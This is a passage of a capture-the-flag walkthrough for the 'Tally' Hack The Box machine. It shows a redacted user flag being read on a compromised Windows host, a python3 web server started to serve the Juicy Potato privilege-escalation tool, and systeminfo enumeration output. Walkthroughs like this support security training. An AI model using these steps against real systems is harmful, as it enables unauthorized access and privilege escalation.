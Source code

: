 ```
19/10/2017  22:48            11,010 SPBestWarmUp.xml
17/09/2017  21:48             1,914 SQLCMD.lnk
21/09/2017  00:46               129 todo.txt
31/08/2017  02:04                32 user.txt
17/09/2017  21:49               936 zz_Migration.lnk
               9 File(s)         33,231 bytes
               2 Dir(s)   2,482,917,376 bytes free

c:\Users\Sarah\Desktop>type user.txt
type user.txt
be7xxxxxxxxxxxxxxxxxxxxxxxxxxbb1
```


<hr width="300" size="10">



<h3>Privilege Escalation</h3>



Crank up the python3 webserver again, this time to serve Juicy Potato:
```
python3 -m http.server 80
```

```
c:\boo>systeminfo
systeminfo

Host Name:                 TALLY
OS Name:                   Microsoft Windows Server 2016 Standard
OS Version:                10.0.14393 N/A Build 14393
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00376-30726-67778-AA877
Original Install Date:     28/08/2017, 15:43:34
System Boot Time:          07/04/2020, 21:59:16
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
                           [02]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-gb;English (United Kingdom)
Input Locale:              en-gb;English (United Kingdom)
Time Zone:                 (UTC+00:00) Dublin, Edinburgh, Lisbon, London
Total Physical Memory:     2,047 MB
Available Physical Memory: 192 MB
Virtual Memory: Max Size:  4,376 MB
Virtual Memory: Available: 669 MB
Virtual Memory: In Use:    3,707 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB.LOCAL
Logon Server:              \\TALLY
Hotfix(s):                 2 Hotfix(s) Installed.
                           [01]: KB3199986
                           [02]: KB4015217
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
```